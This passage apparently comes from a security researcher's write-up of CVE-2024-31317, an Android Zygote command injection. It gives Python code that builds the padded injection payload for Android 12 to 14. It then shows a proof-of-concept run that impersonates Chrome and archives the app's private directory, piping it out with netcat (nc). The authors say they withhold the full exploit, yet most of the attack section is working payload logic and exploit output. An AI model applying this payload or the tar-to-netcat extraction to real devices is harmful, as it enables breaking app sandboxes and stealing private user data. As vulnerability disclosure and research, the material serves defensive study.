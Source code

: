 With those numbers, the ***payload*** for Android 12 + looks like this:

```python 
{% highlight python linenos %}
# system server BufferWriter size
bw_buffer_size = 8192

# zygote read buffer size
zygote_buffer_size = 12200

# len("9999\n--set-api-denylist-exemptions\n")
sade_len = 36

# bottom padding (comas + X)
bottom_padding = "," * (zygote_buffer_size - bw_buffer_size - len(payload) - 3) + "X"
print(f"-> Bottom padding len = {len(bottom_padding)}")

# top padding (saltos + 'A's)
top_padding = "\n" * len(bottom_padding) + "A" * (bw_buffer_size - sade_len - len(bottom_padding) + 1)
print(f"-> Top padding len = {len(top_padding) + sade_len}")

# ajustar el conteo de argumentos
payload = str(len(bottom_padding) + 10) + payload[4:]

# payload final
payload = top_padding + payload + bottom_padding
{% endhighlight %}
```

Although the size of the Zygote *buffer* varies on Android 13 and 14, Android 12 values work there as well.

We will not publish the full exploit; anyone who wants the code can write to us explaining their motivations.

---

### Execution of the proof of concept

```bash
$ ./poc1.py
usage: python ./poc1.py [mode: exec | extract] [app to impersonate]
Modes:
  exec     executes a bash command
  extract  extracts entire directory of the app
App to impersonate:
  The full name of the app as in com.example.app

$ ./poc1.py extract com.android.chrome
-> Trying to exploit CVE-2024-31317 (Zygote command injection).
-> android version: 14
-> android SDK version: 34
-> android serial number: EMULATOR35X4X9X0
-> Extract /data/user/0/com.android.chrome/ to com.android.chrome.tar
-> Making payload for com.android.chrome on Android 14
-> command: tar --create --file=- /data/user/0/com.android.chrome/ | nc -w 3 localhost 31337
-> Got user ID: 10150
-> Bottom padding len = 3757
-> Top padding len = 8193
-> Copy payload to /data/local/tmp/payload.txt
-> Close settings app if open
-> Start adb shell
-> Set hidden_api_blacklist_exemptions global setting with the payload
-> Start Settings App to _move_ zygote
Starting: Intent { act=android.settings.SETTINGS }
```